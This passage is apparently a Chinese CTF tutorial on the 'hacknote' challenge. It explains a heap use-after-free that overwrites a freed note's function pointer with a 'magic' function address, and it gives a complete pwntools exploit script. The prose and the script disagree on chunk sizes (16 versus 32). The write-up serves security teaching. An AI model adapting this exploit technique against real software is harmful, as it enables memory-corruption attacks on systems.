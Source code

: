 那么，根据我们之前在堆的实现中所学到的，显然note是一个fastbin chunk（大小为16字节）。我们的目的是希望一个note的put字段为magic的函数地址，那么我们必须想办法让某个note的printnote指针被覆盖为magic地址。由于程序中只有唯一的地方对printnote进行赋值。所以我们必须利用写real content的时候来进行覆盖。具体采用的思路如下

- 申请note0，real content size为16（大小与note大小所在的bin不一样即可）
- 申请note1，real content size为16（大小与note大小所在的bin不一样即可）
- 释放note0
- 释放note1
- 此时，大小为16的fast bin chunk中链表为note1->note0
- 申请note2，并且设置real content的大小为8，那么根据堆的分配规则
  - note2其实会分配note1对应的内存块。
  - real content 对应的chunk其实是note0。
- 如果我们这时候向note2 real content的chunk部分写入magic的地址，那么由于我们没有note0为NULL。当我们再次尝试输出note0的时候，程序就会调用magic函数。

### 利用脚本

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
magic = 0x08048986

addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```
